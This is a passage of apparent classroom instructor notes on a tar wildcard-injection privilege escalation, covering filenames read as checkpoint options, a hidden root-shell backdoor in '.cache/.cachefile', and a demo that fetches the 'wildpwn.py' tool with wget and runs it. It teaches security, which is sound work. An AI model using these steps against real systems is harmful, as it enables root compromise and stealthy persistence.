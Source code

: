 - When an unsuspecting sysadmin runs `tar`, the system will mistakenly interpret the above filenames as checkpoint commands, and the checkpoint commands will cause `tar` to execute `.webscript`.

- If an administrator runs this command with root privileges, the malicious `.webscript` will run with root privileges as well&mdash;meaning it can do anything to the system!

- When `.webscript` is run with root privileges, it creates a malicious program that the attacker can use to open a root shell. It then creates a hidden directory, called `.cache`, and saves the malware to a hidden file in this directory, called `.cachefile`.

- Leaving the final malware in a hidden directory called `.cache`, within a hidden file called `.cachefile`, is a very subtle and stealthy deployment method. The administrator will have no idea that the file has been created, and will not see either the `.cache` directory or the `.cachefile` unless they list all files with the `-a` flag.

Reiterate that the attacker cannot simply run `.webscript` on their own, because they don’t have root privileges. They must wait for the system administrator to run it in order to later impersonate them.

Ask if students have any questions before proceeding.

#### Exploiting `tar` Demo Scenario

Now, we'll use the following scenario to demonstrate how to carry out this exploit:

- An attacker has gained access to our system by stealing the password for the instructor user.

- Although, for this example, we will pretend that instructor user does not have root access. In your activity, you will truly be working on a user without root access.

- We will be taking the role of the attacker and will use `wildpwn.py` to plant malicious files. These files will be executed when an administrator with root privileges runs the tar command.

#### Exploiting `tar` Demo 

1. Open up a terminal and run the following commands:

    - Create a new directory for this demonstration: `mkdir ~/Documents/exploit_demo`.

    - Move to the `exploit_demo` directory with: 

        - `cd ~/Documents/exploit_demo`

        - This is the directory to which the attacker would download the `wildpwn.py` program.

2. Download the script with `wget`.

    - Then, run `ls -l` to display that the `wildpwn.py` program is in this directory.

    - `wget https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py`

    - `ls -l`

      ```
      -rw-r--r--   1 instructor  instructor   3.6K Dec 19 12:46 wildpwn.py
      ```

3. Type  `python wildpwn.py tar .` and explain that this will create both the malicious script and checkpoint files.

    - Break down the syntax:

